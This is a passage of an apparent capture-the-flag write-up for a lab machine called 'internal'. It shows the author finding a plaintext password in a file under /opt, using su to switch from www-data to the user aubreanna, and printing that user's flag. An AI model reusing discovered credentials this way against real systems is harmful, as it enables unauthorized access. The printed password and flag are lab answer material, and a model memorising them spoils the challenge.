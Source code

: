## Lateral move (www-data to aubreanna)

There is an interesting file in the `/opt` directory:

~~~
cat wp-save.txt
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123
~~~

Let's connect as aubreanna:

~~~
www-data@internal:/opt$ su aubreanna
su aubreanna
Password: bubb13guM!@#123

aubreanna@internal:/opt$ whoami
whoami
aubreanna
~~~

## User flag

The user flag is in aubreanna's home folder:

~~~
aubreanna@internal:/opt$ cd /home/aubreanna
cd /home/aubreanna
aubreanna@internal:~$ ls -la
ls -la
total 56
drwx------ 7 aubreanna aubreanna 4096 Aug  3 03:57 .
drwxr-xr-x 3 root      root      4096 Aug  3 01:40 ..
-rwx------ 1 aubreanna aubreanna    7 Aug  3 20:01 .bash_history
-rwx------ 1 aubreanna aubreanna  220 Apr  4  2018 .bash_logout
-rwx------ 1 aubreanna aubreanna 3771 Apr  4  2018 .bashrc
drwx------ 2 aubreanna aubreanna 4096 Aug  3 01:41 .cache
drwx------ 3 aubreanna aubreanna 4096 Aug  3 19:36 .gnupg
drwx------ 3 aubreanna aubreanna 4096 Aug  3 01:53 .local
-rwx------ 1 root      root       223 Aug  3 01:56 .mysql_history
-rwx------ 1 aubreanna aubreanna  807 Apr  4  2018 .profile
drwx------ 2 aubreanna aubreanna 4096 Aug  3 02:38 .ssh
-rwx------ 1 aubreanna aubreanna    0 Aug  3 01:41 .sudo_as_admin_successful
-rwx------ 1 aubreanna aubreanna   55 Aug  3 03:57 jenkins.txt
drwx------ 3 aubreanna aubreanna 4096 Aug  3 01:41 snap
-rwx------ 1 aubreanna aubreanna   21 Aug  3 03:56 user.txt
aubreanna@internal:~$ cat user.txt
cat user.txt
THM{int3rna1_fl4g_1}
~~~
